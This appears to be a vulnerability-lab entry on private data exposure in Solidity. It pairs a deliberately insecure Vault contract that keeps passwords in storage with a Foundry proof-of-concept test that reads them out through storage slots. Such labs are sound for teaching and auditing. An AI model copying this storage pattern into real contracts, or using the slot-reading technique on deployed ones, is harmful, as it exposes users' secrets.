

#  Private data
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**Name:** Private Data Exposure

**Description:**  
Solidity stores the variables defined in the contract in slots. Each slot can accommodate up to 32 bytes or 256 bits. Given that all data stored on-chain, whether public or private, can be read, it is possible to read private data from the Vault contract by predicting the memory slot where the private data resides.

If the Vault contract is utilized in a production environment, malicious actors could employ similar techniques to access sensitive information such as user passwords.

**Mitigation:**  
Avoid storing sensitive data on-chain

**REF**  

https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d

**Vault Contract:**  
```
contract Vault {
    // slot 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // slot 1
    User[] public users;
    // slot 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```
**How to Test:**

forge test --contracts src/test/Privatedata.sol-vvvv  
```
// Function declaration for testReadprivatedata() which is a public function.
    function testReadprivatedata() public {
        
        // A new instance of the Vault contract is created with an argument `123456789`.
        VaultContract = new Vault(123456789);

        // Calls the `vm.load` function with the Vault contract's address and the location (0).
        // The `vm.load` function loads data from the given storage slot in the contract at the provided address.
        // Here, the 0th storage slot of the contract is read. In Solidity, storage layout starts from slot 0.
        bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

        // Logs the value of the first storage slot, converting the bytes32 value to a uint256.
        console.log(uint256(leet));

        // The `vm.load` function is called again, but this time, it uses a method `getArrayLocation` from the VaultContract to
        // calculate the storage slot of a specific array element. This is because arrays in Ethereum are not stored 
        // in contiguous blocks but each element is hashed to find its location.
        // Here, it's assumed that there's an array in the Vault contract and you're trying to access the data at slot 1 (based on your parameters)
        bytes32 user = vm.load(
            address(VaultContract),
            VaultContract.getArrayLocation(1, 1, 1)
        );
        
        // Logs the value of the particular array element that was read from the contract storage, converting it from bytes32 to uint256.
        console.log(uint256(user));
    }
```  
Red box: read private data successful.
 